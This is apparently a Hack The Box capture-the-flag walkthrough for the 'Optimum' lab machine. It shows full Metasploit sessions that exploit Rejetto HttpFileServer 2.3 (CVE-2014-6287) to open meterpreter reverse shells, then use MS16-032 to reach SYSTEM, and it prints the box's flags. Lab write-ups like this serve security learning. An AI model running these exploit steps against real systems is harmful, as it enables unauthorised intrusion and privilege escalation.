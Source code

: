 ```yaml
---
title: Hack The Box - Optimum
slug: hackthebox/optimum
template: item
date: 28-10-2017

taxonomy:
	category: [Hack The Box]
	tag: [CTF, METASPLOIT]
---
```


[Hack The Box][HTB] is a plateform that gives you access to several vulnerable VMs. In this post, we'll take a look at `Optimum`, a VM running on Windows.

===

We're just given an IP, so let's fireup `nmap` and see the services running on that machine:

```text
root@kali:~# nmap 10.10.10.8 -p- -T5

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-27 23:49 CEST
Nmap scan report for 10.10.10.8
Host is up (0.059s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 507.79 seconds
```

It looks like we only have a webserver running on it, we can get more information with the `-sV` option. This option tells `nmap` to find more information about the services running.

```text
root@kali:~/Documents/HackTheBox/Optimum# nmap 10.10.10.8 -p 80 -sV

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-27 22:34 CEST
Nmap scan report for 10.10.10.8
Host is up (0.023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.21 seconds
```
The webserver running is `HTTP File Server 2.3`. This information is confirmed by the small banner on the website:

![Optimum website](files/webpage.png)

```text
HttpFileServer 2.3
Server time: 3/11/2017 8:35:38 πμ
Server uptime: 00:15:58
```
That's all we have so far, so we'll have to deal with it. We run metasploit and look if there is an exploit that could help us.

```text
root@kali:~# msfconsole
msf > search HttpFileServer

Matching Modules
================

   Name                                   Disclosure Date  Rank       Description
   ----                                   ---------------  ----       -----------
   exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Rejetto HttpFileServer Remote Command Execution
```

It seems that we have an exploit that could allow us to get a shell. After some digging on the internet, We quickly discover that the vulnerability is [identified as CVE-2014-6287][CVE] and targets the versions `2.3.x` of `HTTP File Server`, which is perfect for us! Now let's get that shell!

```text
msf > use exploit/windows/http/rejetto_hfs_exec
msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(rejetto_hfs_exec) > set LHOST 10.10.14.55
LHOST => 10.10.14.55
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.55:4444 
[*] Using URL: http://0.0.0.0:8080/0FotgzBJo192
[*] Local IP: http://192.168.0.17:8080/0FotgzBJo192
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /0FotgzBJo192
[*] Sending stage (179267 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.55:4444 -> 10.10.10.8:49215) at 2017-10-28 09:31:27 +0200
[!] Tried to delete %TEMP%\TmqNJfjSBKcjWI.vbs, unknown result
[*] Server stopped.

meterpreter > getuid
Server username: OPTIMUM\kostas
```

It worked! Perfect! We just owned the user:

```text
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   4096    dir   2017-11-03 17:29:33 +0100  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 12:57:16 +0100  desktop.ini
100777/rwxrwxrwx  760320  fil   2017-03-18 13:11:17 +0100  hfs.exe
100666/rw-rw-rw-  32      fil   2017-03-18 13:13:33 +0100  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73meterpreter >
```

That was the first part, now we need to own the whole machine, aka get root. To do so, we need to find a way to gain privileges. First, let's take a look at the system info, it's always useful:

```text
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
```

The OS is a 64-bit `Windows 2012 R2`. I can use the script [Windows Exploit Suggester][WES] to find a list of exploits that could potentially help me to get root. (Note: the first time you run it, you will need to use the `--update` option.)

```text
root@kali:~# ./windows-exploit-suggester.py -d 2017-10-28-mssb.xls --ostext 'Windows 2012 R2 64-bit'
[*] // list of exploits
[*] done
```

After some research and a lot of disappointment, the `MS16-032` seems to be a good candidate. But before using it, we need to get a 64-bit shell so the exploit will work. (Because this is a x64 architecture.)

```text
meterpreter > background
[*] Backgrounding session 1...
msf exploit(rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.55:4444 
[*] Using URL: http://0.0.0.0:8080/ikHFJJgnD
[*] Local IP: http://192.168.0.17:8080/ikHFJJgnD
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /ikHFJJgnD
[*] Sending stage (205379 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.55:4444 -> 10.10.10.8:49241) at 2017-10-28 09:50:57 +0200
[!] Tried to delete %TEMP%\JdNaJvZunlmK.vbs, unknown result
[*] Server stopped.

meterpreter >
```
Now that we have our 64-bit shell, we're ready to use the `MS16-032` exploit module available in Metasploit:

```text
meterpreter > background
[*] Backgrounding session 2...
msf exploit(rejetto_hfs_exec) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
msf exploit(ms16_032_secondary_logon_handle_privesc) > set session 2
session => 2
msf exploit(ms16_032_secondary_logon_handle_privesc) > set lhost 10.10.14.55
lhost => 10.10.14.55
msf exploit(ms16_032_secondary_logon_handle_privesc) > set lport 4443
lport => 4443
msf exploit(ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse SSL handler on 10.10.14.55:4443 
[*] Writing payload file, C:\Users\kostas\Desktop\exdbWLC.txt...
[*] Compressing script contents...
[+] Compressed size: 3580
[*] Executing exploit script...
[*] Powershell session session 3 opened (10.10.14.55:4443 -> 10.10.10.8:49269) at 2017-10-28 10:08:41 +0200
[+] Cleaned up C:\Users\kostas\Desktop\exdbWLC.txt

Windows PowerShell running as user OPTIMUM$ on OPTIMUM
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Users\kostas\Desktop> whoami
nt authority\system
PS C:\Users\kostas\Desktop> cat C:\Users\Administrator\Desktop\root.txt
51ed1b36553c8461f4552c2e92b3eeed
```

We're done here folks! 


[HTB]: https://www.hackthebox.eu "Hack The Box website"
[CVE]: https://www.exploit-db.com/exploits/39161/ "CVE-2014-6287 exploit code"
[WES]: https://github.com/GDSSecurity/Windows-Exploit-Suggester "WES on GitHub"